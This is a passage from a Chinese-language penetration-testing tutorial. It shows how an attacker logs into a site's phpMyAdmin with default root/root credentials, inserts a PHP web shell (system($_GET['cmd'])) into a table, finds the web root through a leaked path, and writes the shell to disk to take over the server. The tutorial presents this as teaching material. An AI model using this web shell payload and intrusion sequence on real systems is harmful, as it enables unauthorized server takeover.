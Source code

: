 ![20181536-9ffda7ad1aaa4b34ab34ff34ede222d](http://drops.javaweb.org/uploads/images/9196921892739c7b05a48688a95be5fa87e51c6b.jpg)

很多站点都配置默认密码为root。是不是也可以尝试下呢？

输入用户名root，密码root，奇迹就这么出现了，直接登录管理后台。![20181543-656f44b72bc44514a5eedbcbddccf45](http://drops.javaweb.org/uploads/images/c2ac4a326206d3effa74deaa011ecaa6e3ab3e70.jpg)

进入后台之后，我们得到了更为详尽的信息，为我们下一步攻击打下了基础

### 1.4.3 攻击与权限维持

上面的步骤，我们完成了对网站数据库的攻击，其实拿到了网站数据库，就是拿到了整个网站的控制权。

如何利用phpmyadmin进行提权，从而得到服务器的控制权呢？

目前在phpmyadmin后台，我们可以操作表，向表中写数据，如果数据库有权限dump数据到web站点所在的文件夹，那么可以先将一个网马写到数据库再保存到磁盘本地，再从浏览器访问网马，是不是就可以了呢？

首先在phpmyadmin后台找到一个数据库，在“SQL”选项卡执行sql语句创建一个表“hacker”。

![20181626-57c55b846c11467fa5b8fd1425eee41](http://drops.javaweb.org/uploads/images/8c29b718a3f409bf1d3f04735e389b350f2c6124.jpg)

语句执行成功后，再插入一条数据，代码很简单，希望能用php的system函数执行系统指令。

```
INSERT INTO hacker (packet)

VALUES(
'<pre><body bgcolor=silver><? @system($_GET["cmd"]); ?></body></pre>'  
); 

```

![20181634-8b3a0db49bbc4586b46feea26b00726](http://drops.javaweb.org/uploads/images/d6ddaf4ebc89b026a275f2cb28b81aab20174ec7.jpg)

下一步就是保存插入的记录到站点目录下，但是站点的物理路径是什么呢？我在观察页面请求链接的时候，发现一个404链接。

![20181642-107d3b9ff1c34775a295404118ffb92](http://drops.javaweb.org/uploads/images/40f59800694cca6362cb36c3039eb94855399cc9.jpg)

404链接的路径是[http://www.xxxxx.cn/var/www/productions/22_production.zip](http://www.xxxxx.cn/var/www/productions/22_production.zip)。这个是进行网站开发时候常犯的静态链接的错误，那是不是说网站的根目录在”/var/www”下呢，我把去掉”/var/www”，文件可以被正常访问。其实这也是ubuntu默认的站点目录。接下来就试试有没有权限保存文件了。

经过一番查找，终于找到一个有写权限的目录，将网马写到web目录中，得到了webshell，接下来就不用详解了吧。

### 小结

这个简单的小例子，只是想告诉大家，渗透测试有什么并没有那么困难。也没有哪种方法，哪个工具或者平台是万能的，最重要的是你自己的努力和思考。

从下一节开始，我们正式进入渗透测试的学习之旅。